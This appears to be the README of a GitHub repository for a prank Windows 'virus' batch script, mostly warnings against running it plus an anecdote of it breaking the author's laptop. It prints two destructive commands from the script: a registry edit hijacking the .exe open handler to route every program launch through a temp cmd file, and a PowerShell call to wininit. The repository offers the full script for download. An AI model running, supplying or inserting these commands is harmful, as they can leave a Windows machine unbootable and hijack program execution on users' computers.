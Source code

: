 # dangerous-virus
Formerly known on my profile as "corona-joke-virus".


## DO NOT UNDER ANY CIRCUMSTANCES RUN THIS ON YOUR MAIN. I DO NOT TAKE ANY RESPONSIBILITY FOR ANY HARM CAUSED BY THIS SCRIPT. I HAVE ALREADY WARNED YOU SEVERAL TIMES, EXECUTE THIS ONLY IN A SANDBOX ENVIROMENT (FOR EXAMPLE A VM).
### I am speaking from a personal experience here: I once executed this "harmless" script on a laptop owned by me. It did everything as intended: Starting screen_melter.exe, running wininit (with admin) and modifying the reg key for running an exe to a custom cmd script. "Harmless", right? Well, as you can probably imagine by now, that very laptop didn't live to see another boot. I eventually got it working again by restoring to an old system backup I found, but still. DO NOT EXECUTE THIS SCRIPT. Please... just don't.

#### If you want to download the script, feel free to do so. The dangerous file has been renamed from "main.cmd" to "main.cmd_UNRUNNABLE", so that clicking on it accidentally won't ruin your PC.
#### Also, there are two lines commented out (look below) to prevent complete destruction and loss of data when somehow accidentally run.
```
reg add "HKEY_CLASSES_ROOT\exefile\shell\open\command" /ve /t REG_SZ /d "%temp%\harald_afterburner.cmd \"%%1\" %%*" /f
powershell.exe -Command wininit
```
